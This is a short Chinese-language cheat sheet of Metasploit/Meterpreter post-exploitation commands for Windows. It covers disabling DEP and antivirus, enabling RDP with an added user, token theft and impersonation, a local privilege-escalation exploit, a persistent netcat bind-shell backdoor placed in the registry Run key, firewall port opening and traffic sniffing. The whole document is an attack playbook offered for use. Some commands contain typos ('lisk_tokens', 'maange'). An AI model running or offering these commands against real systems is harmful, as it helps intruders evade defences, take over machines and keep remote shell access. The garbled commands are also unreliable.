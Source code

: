 **关闭DEP**

```
bcdedit.exe /set {current} nx AlwaysOff
```

**Kill 杀毒软件**

```swift
run killav
post/windows/manage/killav
```

**开启远程桌面**

```swift
post/windows/maange/enable_rdp
run multi_console_command -rc [file]        //生成资源文件可用来关闭复原

run getgui -e
run getgui -u admin -p 123      //添加3389用户组
```

**获取系统Tokens**

```swift
load incognito
lisk_tokens -u
impersonate_token lab \\admin
execute -f cmd.exe -i -t(使用当前Token)

exploit/windows/local/ms10_015_kitrapod
```

**注册表添加后门**

```swift
upload /usr/share/windows_binaries/nc.exe c:\\windows\\system32
reg enumkey HKLM\\software\\microsoft\\windows\\currentversion\\run     //枚举
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'        //设定值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc       //查询生效
```

**打开防火墙端口**

```swift
execute -f cmd -i -H
netsh firewall show opmode
netsh firewall add portopening TCP 444 "test" ENABLE ALL
shutdown -r -t 0
```

**抓包**

抓包缓存于硬盘，全程SSL加密

```swift
load sniffer
sniffer_interfaces
sniffer_start [id]
sniffer_dump [id] *.cap
```
